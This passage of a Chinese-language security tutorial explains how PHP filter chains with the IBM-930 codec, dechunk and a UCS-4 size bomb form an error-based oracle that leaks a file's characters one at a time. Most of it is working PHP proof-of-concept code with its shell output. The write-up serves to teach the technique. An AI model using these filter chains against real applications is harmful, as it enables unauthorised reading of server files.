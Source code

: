 在 `X-IBM-930` 中，从 `a` 到 `f` 的字符移动了 1，大写字母和数字也设置在不同于 ASCII 表的索引上，例如 `cX` 和 `fX` ，因为可以防止与其他 base64 编码值的冲突。

下面看看这种编码的作用：

```bash
<?php
$guess_char = "";

for ($i=1; $i <= 7; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char/resource=/tmp/test";
    echo "IBM-930 conversions : ".$i;
    echo ", First char value : ".file_get_contents($filter)[0]."\n";
}
```

```bash
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, First char value : b
IBM-930 conversions : 2, First char value : c
IBM-930 conversions : 3, First char value : d
IBM-930 conversions : 4, First char value : e
IBM-930 conversions : 5, First char value : f
IBM-930 conversions : 6, First char value : g
IBM-930 conversions : 7, First char value : h
```

`$remove_junk_chars` 子链用于从链中删除不可打印的字符， `$guess_char` 用于 X-IBM-930 编解码器。最后，循环打印转换后的文件内容的第一个字符。如图，编解码器得到了正确使用效果：每次进行转换时，字符都会移动一个。

现在看看基于发生错误的 oracle 会产生什么：

```bash
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."edcba"[$i-1]."\n";
}
```
